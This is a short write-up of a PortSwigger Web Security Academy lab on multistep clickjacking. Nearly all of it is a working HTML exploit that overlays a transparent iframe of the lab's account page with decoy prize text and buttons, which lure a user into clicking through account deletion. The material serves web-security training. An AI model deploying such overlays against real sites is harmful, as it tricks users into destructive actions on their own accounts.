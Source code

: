 # ***5. Lab: Multistep clickjacking***
https://portswigger.net/web-security/clickjacking/lab-multistep

lets take the format from the 2nd lab for 1st stage:
```htm
<html>
    <head>
        <style>
            #vulnarble_website_del {
                position:relative;
                width:1920px;
                height:720px;
                opacity:0.2;
                z-index:2;
                }
            #stage1 {
                position:absolute;
                z-index:1;
                }
            #stage1 button {
                margin-left: 400;
                margin-top: 350;
                }
            #stage2 {
                position:absolute;
                z-index:1;
                }
            #stage2 button {
                margin-left: 550;
                margin-top: 320;
                }      
        </style>
    </head>
    <body>
        <div id="stage2">
            <button type="reset">click me next</button>
        </div>               
        <div id="stage1">
            <h1>You Are The Winner!!!</h1>
            <h2>You won an awesome tropics holiday!</h2>
            <h2>Accept it by clicking the button below.</h2>
            <button type="reset">Click me first!</button>
        </div>      
        <iframe id="vulnarble_website_del" src="https://0a8700ab04b944c3c0637dac002100c2.web-security-academy.net/my-account">
        </iframe>
    </body>
</html>
```
# CLICK!
